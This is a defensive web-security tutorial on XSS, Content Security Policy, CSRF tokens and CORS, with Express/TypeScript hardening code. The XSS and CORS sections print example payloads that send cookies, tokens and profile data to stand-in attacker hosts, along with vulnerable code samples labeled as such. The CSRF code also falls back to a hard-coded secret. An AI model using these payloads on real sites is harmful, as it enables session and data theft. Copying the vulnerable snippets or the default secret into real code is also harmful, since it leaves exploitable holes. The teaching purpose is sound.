




import { Callout } from 'fumadocs-ui/components/callout';
import { Tabs, Tab } from 'fumadocs-ui/components/tabs';
import { Steps, Step } from 'fumadocs-ui/components/steps';

Modern full-stack web applications bridge two very different execution environments: the **stateless, private backend server** and the **stateful, public browser runtime**.

While the server is protected behind VPCs and firewalls, the browser executes inside the client's local machine alongside malicious browser extensions, third-party advertisement scripts, and attacker-controlled tabs. Defending user data requires mastering the three pillars of client-boundary security: **Cross-Site Scripting (XSS)**, **Cross-Site Request Forgery (CSRF)**, and **Cross-Origin Resource Sharing (CORS)**.

---

## 1. Cross-Site Scripting (XSS): Anatomy & Exploitation

**Cross-Site Scripting (XSS)** occurs when an attacker tricks an application into executing malicious JavaScript code within the context of an unsuspecting user's browser session.

Once malicious JavaScript executes inside the victim's origin, the attacker has complete control over the application runtime:
- Steal sensitive storage tokens and non-`HttpOnly` cookies (`document.cookie`).
- Harvest keystrokes via background listeners (`window.addEventListener('keydown', ...)`).
- Perform unauthorized state-changing actions using the victim's ambient credentials.
- Deface the UI or inject realistic credential phishing prompts.



### 1. Stored XSS (Persistent)
The most lethal variant. The malicious payload is permanently stored in the backend database (e.g., inside a blog comment, forum post, or user profile bio) and delivered to any victim requesting that content.

<Tabs items={['1. Attacker Injection', '2. Backend Storage', '3. Victim Render & Exploitation']}>
  <Tab value="1. Attacker Injection">
```http
POST /api/v1/comments HTTP/1.1
Host: community.example.com
Authorization: Bearer <AttackerToken>
Content-Type: application/json

{
  "articleId": "art_102",
  "content": "Great article! <script>fetch('https://evil.attacker.com/steal?c=' + document.cookie)</script>"
}
```
*The attacker submits a comment containing an unescaped script tag.*
  </Tab>

  <Tab value="2. Backend Storage">
```sql
-- Database saves raw HTML without validation or sanitization
INSERT INTO comments (id, article_id, content)
VALUES ('comm_551', 'art_102', 'Great article! <script>fetch(...)');
```
*The database persists the payload verbatim.*
  </Tab>

  <Tab value="3. Victim Render & Exploitation">
```html
<!-- Vulnerable Server-Side Template / Dangerous Client Rendering -->
<div class="comment-body">
  Great article! <script>fetch('https://evil.attacker.com/steal?c=' + document.cookie)</script>
</div>
```
*When any user (including admins) opens the article, their browser parses the `<script>` tag and executes the attacker's script under the authenticated domain.*
  </Tab>
</Tabs>

### 2. Reflected XSS (Non-Persistent)
The payload is delivered as part of an HTTP request (typically in a URL query parameter or form submission) and immediately reflected back in the HTTP response without persistence.

```http
https://bank.example.com/search?q=<script>window.location='https://evil.com/exfil?t='+localStorage.getItem('token')</script>
```

When an unsuspecting victim clicks this phishing link, the server responds:
```html
<h1>Search results for: <script>window.location='https://evil.com/exfil?t='+localStorage.getItem('token')</script></h1>
```
The browser executes the reflected script within the bank's origin.

### 3. DOM-Based XSS (Pure Client-Side)
DOM XSS occurs entirely within the client-side JavaScript runtime. The payload is read from an untrusted **Source** and written directly into a dangerous DOM **Sink** without touching the server:

| Dangerous DOM Sources | Dangerous DOM Execution Sinks |
| :--- | :--- |
| `location.search` | `element.innerHTML` |
| `location.hash` | `document.write()` / `document.writeln()` |
| `document.referrer` | `eval()` / `new Function()` |
| `window.name` | `element.setAttribute('href', ...)` (with `javascript:...`) |
| `postMessage` event payloads | `setTimeout(string, ...)` |

```javascript
// ❌ VULNERABLE CLIENT JAVASCRIPT:
// URL: https://app.example.com/dashboard#
const hashValue = window.location.hash.substring(1); // Source
const container = document.getElementById('user-greeting');
container.innerHTML = `Welcome, ${hashValue}`;       // Sink: Executes img onerror script!

// ✅ SAFE CLIENT JAVASCRIPT: Use textContent to treat data as text
container.textContent = `Welcome, ${hashValue}`;
```

---

## 2. Server-Side HTML Sanitization & Context-Aware Encoding

Preventing XSS requires applying defenses based on where untrusted data is placed in the HTML document.

### Context-Aware Output Encoding
Different parts of an HTML document require different escaping algorithms:

```html
<!-- 1. HTML Body Context -->
<p>{{userInput}}</p>
<!-- Escape: & -> &amp;, < -> &lt;, > -> &gt;, " -> &quot;, ' -> &#x27; -->

<!-- 2. HTML Attribute Context -->
<input type="text" name="city" value="{{userInput}}" />
<!-- Strictly quote attributes and encode quotes, spaces, and backticks -->

<!-- 3. JavaScript Context -->
<script>
  // ❌ NEVER interpolate user input directly into inline script blocks:
  const config = { username: "{{userInput}}" };
  // Attacker input: "; alert(1); //
  // Evaluates to: const config = { username: "" }; alert(1); // " };
</script>

<!-- 4. URL / Href Context -->
<a href="{{userLink}}">Visit Profile</a>
<!-- Must validate protocol is http: or https: to prevent 'javascript:alert(1)' -->
```

### Server-Side Sanitization with DOMPurify
When users must submit rich HTML (such as markdown blog posts or rich-text email drafts), you cannot simply strip all tags. You must sanitize HTML on the server before storing it:

```typescript
import { JSDOM } from 'jsdom';
import DOMPurify from 'dompurify';

// Initialize DOMPurify with a server-side DOM window
const window = new JSDOM('').window;
const purify = DOMPurify(window);

export function sanitizeHtmlContent(untrustedHtml: string): string {
  return purify.sanitize(untrustedHtml, {
    ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'ul', 'ol', 'li', 'code', 'pre', 'blockquote'],
    ALLOWED_ATTR: ['href', 'title', 'target', 'rel'],
    ALLOWED_URI_REGEXP: /^(?:(?:https?|mailto):|[^a-z]|[a-z+.\-]+(?:[^a-z+.\-:]|$))/i,
    FORBID_TAGS: ['script', 'style', 'iframe', 'object', 'embed', 'form'],
    FORBID_ATTR: ['style', 'onerror', 'onload', 'onclick', 'onmouseover'],
  });
}
```

---

## 3. Content Security Policy (CSP) Level 3 & Cryptographic Nonces

**Content Security Policy (CSP)** is an HTTP response header that instructs the browser to restrict which resources (scripts, styles, images, iframes, network connections) can be loaded and executed.

CSP provides a defense-in-depth safety net: even if an attacker successfully injects an inline `<script>` tag into your HTML, the browser will refuse to execute it.



### Production CSP Level 3 Policy with Cryptographic Nonces

Under CSP Level 3, the modern standard is **Nonce-Based Strict CSP**:
1. Generate a cryptographically strong, unique base64 nonce on **every single HTTP request**.
2. Pass the nonce to your HTML template engine or React SSR server.
3. Attach the nonce to authorized `<script nonce="...">` tags.
4. Block all inline scripts that lack the dynamic nonce.

```typescript
import express, { Request, Response, NextFunction } from 'express';
import crypto from 'crypto';

const app = express();

// Middleware: Generate per-request cryptographic nonce and apply CSP
app.use((req: Request, res: Response, next: NextFunction) => {
  // 1. Generate 128-bit random base64 nonce
  const nonce = crypto.randomBytes(16).toString('base64');
  res.locals.cspNonce = nonce;

  // 2. Configure strict CSP Level 3 header
  const cspDirectives = [
    "default-src 'self'",
    // 'strict-dynamic' allows trusted scripts to load child dependencies
    `script-src 'self' 'nonce-${nonce}' 'strict-dynamic'`,
    "style-src 'self' 'unsafe-inline'", // Restrict CSS sources
    "img-src 'self' data: https://images.example.com",
    "connect-src 'self' https://api.example.com",
    "object-src 'none'",                // Disables Flash / Java plugins
    "base-uri 'none'",                  // Prevents <base> tag hijacking
    "frame-ancestors 'none'",           // Prevents Clickjacking
    "form-action 'self'",               // Restricts where forms can submit
  ].join('; ');

  res.setHeader('Content-Security-Policy', cspDirectives);
  next();
});

// Rendering HTML with the request nonce
app.get('/', (req: Request, res: Response) => {
  const nonce = res.locals.cspNonce;
  res.send(`
    <!DOCTYPE html>
    <html>
      <head>
        <title>Secure App</title>
      </head>
      <body>
        <h1>Secured with CSP Level 3 Nonce</h1>
        <!-- ✅ Authorized script executes successfully -->
        <script nonce="${nonce}">
          console.log("Legitimate script running securely!");
        </script>
        <!-- ❌ Attacker-injected script without nonce is blocked by browser -->
        <script>
          alert("Injected script blocked by browser CSP!");
        </script>
      </body>
    </html>
  `);
});
```

---

## 4. Cross-Site Request Forgery (CSRF): Mechanics & Modern Defenses

**Cross-Site Request Forgery (CSRF)** is an attack that forces an authenticated user to execute unwanted actions on a trusted web application in which they are currently authenticated.

### How CSRF Works
Browsers automatically attach stored cookies (including authentication session cookies) to outgoing HTTP requests destined for that domain, **even if the request was initiated by an external, malicious website**:

```mermaid
sequenceDiagram
    autonumber
    actor User as Authenticated User
    participant Bank as https://bank.example.com
    participant Evil as https://attacker-site.com

    User->>Bank: Logs in. Bank sets Set-Cookie: session_id=xyz123; Path=/
    User->>Evil: Browses to malicious forum or spam link
    Note over Evil: Evil page contains auto-submitting hidden form:<br/><form action="https://bank.example.com/transfer" method="POST">
    Evil->>Bank: Submits POST /transfer?to=attacker&amount=10000
    Note over Bank: Browser automatically attaches Cookie: session_id=xyz123!
    Bank->>Bank: Validates session_id. Executes wire transfer!
    Bank-->>User: Transfer successful (Victim loses funds!)
```

### The `SameSite` Cookie Attribute: Capabilities and Limits

The `SameSite` attribute controls whether cookies are sent on cross-site requests:

| `SameSite` Value | Behavior on Cross-Site Requests | Limitations |
| :--- | :--- | :--- |
| `Strict` | Cookie is **never** sent on any cross-site request, even when a user clicks a regular link leading to your site. | Degrades user experience: users clicking a link from Slack or email appear logged out until refreshing. |
| `Lax` (Default) | Cookie is withheld on cross-site subrequests (``, `<iframe>`, `fetch()`, `POST` forms), but **sent on top-level GET navigations** (`<a href="...">`). | Vulnerable if any state-changing operations are triggered via `GET` requests, or via `window.open` edge cases. |
| `None` | Cookie is sent on all cross-site requests. Requires the `Secure` flag (HTTPS only). | Zero CSRF protection; completely relies on custom headers or anti-CSRF tokens. |

<Callout type="warn" title="Why SameSite=Lax Is Not a Complete CSRF Defense">
Relying solely on `SameSite=Lax` leaves edge cases exposed:
1. **State Mutation on GET:** If any endpoint mutates state via `GET` (e.g. `GET /api/account/delete`), a top-level link from an attacker's site will execute it with ambient cookies attached.
2. **Same-Site vs Cross-Origin Confusion:** Subdomains on shared multi-tenant platforms (e.g. `attacker.github.io` and `victim.github.io`) are considered **Same-Site**, bypassing `SameSite` protections!
</Callout>

### Defense Patterns: Synchronizer Token vs. Double-Submit Cookie

To guarantee protection, backend APIs that accept cookie authentication must validate an anti-CSRF token on every state-changing request (`POST`, `PUT`, `PATCH`, `DELETE`).



### Complete TypeScript Double-Submit Cookie Middleware (HMAC-Signed)

A naive double-submit cookie can be bypassed if an attacker can write a cookie on a shared parent domain. An **HMAC-signed Double-Submit Cookie** prevents tampering by signing the random token with a backend secret:

```typescript
import { Request, Response, NextFunction } from 'express';
import crypto from 'crypto';

const CSRF_SECRET = process.env.CSRF_SECRET || 'super-secret-hmac-key-min-32-chars';
const COOKIE_NAME = '__Host-csrf-token';
const HEADER_NAME = 'x-csrf-token';

// Helper to generate a signed CSRF token
export function generateCsrfToken(): { rawToken: string; signedToken: string } {
  const rawToken = crypto.randomBytes(24).toString('hex');
  const signature = crypto.createHmac('sha256', CSRF_SECRET).update(rawToken).digest('hex');
  return {
    rawToken,
    signedToken: `${rawToken}.${signature}`,
  };
}

// 1. Route to issue the CSRF token cookie and response payload
export function issueCsrfToken(req: Request, res: Response): void {
  const { rawToken, signedToken } = generateCsrfToken();

  // Set hardened cookie containing signed token
  res.cookie(COOKIE_NAME, signedToken, {
    httpOnly: false, // Must be readable by client JS to copy into custom request header
    secure: true,     // Enforces HTTPS
    sameSite: 'lax',
    path: '/',
  });

  res.json({ csrfToken: rawToken });
}

// 2. Middleware to verify CSRF token on state-changing requests
export function csrfProtection(req: Request, res: Response, next: NextFunction): void {
  // Safe HTTP methods do not mutate state; skip CSRF checks
  const safeMethods = ['GET', 'HEAD', 'OPTIONS'];
  if (safeMethods.includes(req.method)) {
    return next();
  }

  const cookieToken = req.cookies[COOKIE_NAME];
  const headerToken = (req.headers[HEADER_NAME] as string) || '';

  if (!cookieToken || !headerToken) {
    res.status(403).json({
      type: 'https://api.example.com/errors/csrf-token-missing',
      title: 'Forbidden',
      status: 403,
      detail: 'CSRF token missing from headers or cookies.',
    });
    return;
  }

  // Parse signed token: rawToken.signature
  const [rawFromCookie, signature] = cookieToken.split('.');
  if (!rawFromCookie || !signature) {
    res.status(403).json({ title: 'Forbidden', status: 403, detail: 'Malformed CSRF cookie.' });
    return;
  }

  // Verify HMAC signature of the cookie
  const expectedSignature = crypto.createHmac('sha256', CSRF_SECRET).update(rawFromCookie).digest('hex');
  const isSignatureValid = crypto.timingSafeEqual(
    Buffer.from(signature, 'hex'),
    Buffer.from(expectedSignature, 'hex')
  );

  // Verify client header matches the validated raw token
  const isHeaderMatch = crypto.timingSafeEqual(
    Buffer.from(headerToken),
    Buffer.from(rawFromCookie)
  );

  if (!isSignatureValid || !isHeaderMatch) {
    res.status(403).json({
      type: 'https://api.example.com/errors/csrf-token-invalid',
      title: 'Forbidden',
      status: 403,
      detail: 'Invalid anti-CSRF token verification.',
    });
    return;
  }

  next();
}
```

---

## 5. Cross-Origin Resource Sharing (CORS) Deep Dive

**Same-Origin Policy (SOP)** is the foundational security sandbox of the web. Under SOP, scripts running on `https://my-app.com` cannot inspect or read responses fetched from `https://api.company.com`.

**CORS** is an HTTP-header mechanism that selectively relaxes SOP, allowing web browsers to grant specific origins permission to read cross-origin server responses.

<Callout type="error" title="Critical Rule: CORS Does Not Protect Backend Servers">
CORS is enforced **by web browsers only**. It prevents a malicious website loaded in a user's browser from reading sensitive intranet responses. It **does NOT** stop attackers from querying your API directly via `curl`, Python, Postman, or automated bots. Never treat CORS headers as authorization guards.
</Callout>

### Simple vs. Preflighted Requests

Browsers automatically categorize cross-origin requests into **Simple Requests** and **Preflighted Requests**:



#### Anatomy of an `OPTIONS` Preflight Request
When a frontend sends a JSON payload (`Content-Type: application/json`) or attaches an `Authorization` header, the browser intercepts it and fires an `OPTIONS` flight check first:

```http
OPTIONS /api/v1/orders HTTP/1.1
Host: api.store.com
Origin: https://dashboard.store.com
Access-Control-Request-Method: POST
Access-Control-Request-Headers: content-type, authorization
```

The server must acknowledge and approve the parameters:
```http
HTTP/1.1 204 No Content
Access-Control-Allow-Origin: https://dashboard.store.com
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS
Access-Control-Allow-Headers: Content-Type, Authorization
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 86400
```
- `Access-Control-Max-Age: 86400`: Tells the browser to cache this preflight result for 24 hours so subsequent requests don't incur latency from additional `OPTIONS` handshakes.

### Credentials Handling & The Wildcard Trap
When a frontend sends cookies or authorization headers across origins (`credentials: 'include'`), the server must return:
```http
Access-Control-Allow-Credentials: true
```

<Callout type="warn" title="The Browser Strict Restriction: No Wildcard With Credentials">
Web browsers explicitly **reject and throw a CORS network error** if a response combines:
```http
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```
If credentials are included, `Access-Control-Allow-Origin` **must be set to a single, specific origin** (e.g., `https://dashboard.store.com`).
</Callout>

### The Origin Reflection Vulnerability
Because developers get frustrated when `*` fails with credentials, many fall into the catastrophic **Origin Reflection Vulnerability**:

```typescript
// ❌ CATASTROPHIC VULNERABILITY: Blind Origin Reflection
app.use((req, res, next) => {
  // Reflects whatever Origin the client sent without checking!
  res.setHeader('Access-Control-Allow-Origin', req.headers.origin || '*');
  res.setHeader('Access-Control-Allow-Credentials', 'true');
  next();
});
```

**The Exploit:** An attacker creates `https://evil-hacker.com`. When a victim visits, a script executes:
```javascript
fetch('https://bank.example.com/api/user/profile', { credentials: 'include' })
  .then(res => res.json())
  .then(data => sendToAttacker(data));
```
Because the server reflexively echoed `Access-Control-Allow-Origin: https://evil-hacker.com` and enabled credentials, the browser happily hands the victim's private profile data directly to the attacker!

### Production Express CORS Configuration

A hardened CORS implementation strictly validates the `Origin` header against an explicit allowlist:

```typescript
import express from 'express';
import cors, { CorsOptions } from 'cors';

const app = express();

// Whitelist of trusted origins
const ALLOWED_ORIGINS = new Set([
  'https://app.example.com',
  'https://admin.example.com',
  'https://staging.example.com',
]);

const corsOptions: CorsOptions = {
  origin: (requestOrigin, callback) => {
    // 1. Allow non-browser requests (curl, server-to-server microservices have no Origin header)
    if (!requestOrigin) {
      return callback(null, true);
    }

    // 2. Validate Origin against strict whitelist
    if (ALLOWED_ORIGINS.has(requestOrigin)) {
      callback(null, true);
    } else {
      callback(new Error(`Origin ${requestOrigin} blocked by CORS policy`));
    }
  },
  methods: ['GET', 'POST', 'PUT', 'PATCH', 'DELETE', 'OPTIONS'],
  allowedHeaders: ['Content-Type', 'Authorization', 'X-Requested-With', 'X-CSRF-Token'],
  exposedHeaders: ['X-RateLimit-Limit', 'X-RateLimit-Remaining', 'Retry-After'],
  credentials: true,      // Permitted because origin is dynamically verified against whitelist
  maxAge: 86400,          // Cache preflight OPTIONS responses for 24 hours
  optionsSuccessStatus: 204,
};

app.use(cors(corsOptions));
```

---

## 6. Client Defense Checklist

<Steps>
  <Step>
    ### Eliminate Inline Scripts & Enforce CSP Level 3
    Adopt a strict nonce-based Content Security Policy (`script-src 'self' 'nonce-...' 'strict-dynamic'`). Disallow unsafe inline scripts and object plugins.
  </Step>
  <Step>
    ### Sanitize Rich-Text HTML on the Server
    Never trust client-sanitized HTML. Parse and strip malicious tags and event handlers using DOMPurify with JSDOM before persisting to the database.
  </Step>
  <Step>
    ### Protect Against CSRF with Double-Submit Cookies
    Set `SameSite=Lax` or `SameSite=Strict` on session cookies. For cookie-authenticated mutation endpoints, validate an HMAC-signed anti-CSRF token in HTTP headers.
  </Step>
  <Step>
    ### Harden CORS Policies Against Origin Reflection
    Never echo `req.headers.origin` blindly with `Access-Control-Allow-Credentials: true`. Enforce strict allowlists with preflight caching (`maxAge: 86400`).
  </Step>
</Steps>
